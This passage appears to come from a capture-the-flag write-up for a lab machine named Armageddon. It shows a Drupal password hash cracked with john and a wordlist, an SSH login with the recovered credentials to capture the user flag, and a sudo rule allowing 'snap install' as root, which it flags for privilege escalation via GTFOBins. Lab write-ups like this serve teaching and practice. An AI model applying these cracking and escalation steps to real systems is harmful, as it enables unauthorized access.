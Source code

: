 We put them in a file and run `john` on it. We found the password for the
`brucetherealadmin` user. Which is also a system user (see `/etc/passwd`).

    :::text
    $ john hash -w=~/tools/password_lists/rockyou.txt
    <SNIP>
    --------------------------------------------------------------------------
    Using default input encoding: UTF-8
    Loaded 1 password hash (Drupal7, $S$ [SHA512 128/128 AVX 2x])
    Cost 1 (iteration count) is 32768 for all loaded hashes
    Will run 8 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    booboo           (brucetherealadmin)
    1g 0:00:00:00 DONE (2021-04-25 11:04) 1.960g/s 470.5p/s 470.5c/s 470.5C/s tiffany..chris
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed

We can use SSH to connect to the machine as this user and grab the first flag.

    :::text
    └─$ ssh brucetherealadmin@10.129.48.89
    brucetherealadmin@10.129.48.89's password:
    Last login: Sat May 15 10:05:01 2021 from 10.10.14.17
    [brucetherealadmin@armageddon ~]$ id
    uid=1000(brucetherealadmin) gid=1000(brucetherealadmin) groups=1000(brucetherealadmin) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    [brucetherealadmin@armageddon ~]$ ls
    user.txt
    [brucetherealadmin@armageddon ~]$ cat user.txt
    bcb2084548c43514b5451c42c480bf9f

# Root

We take a look at our privileges and found that we can run `snap install` as
`root`.

    :::text
    [brucetherealadmin@armageddon ~]$ sudo -l
    Matching Defaults entries for brucetherealadmin on armageddon:
        !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
        env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
        secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

    User brucetherealadmin may run the following commands on armageddon:
        (root) NOPASSWD: /usr/bin/snap install *

According to [gtfobins](https://gtfobins.github.io/gtfobins/snap/) we can easily
use that to run commands as root using
[fpm](https://github.com/jordansissel/fpm) to create a snap file.
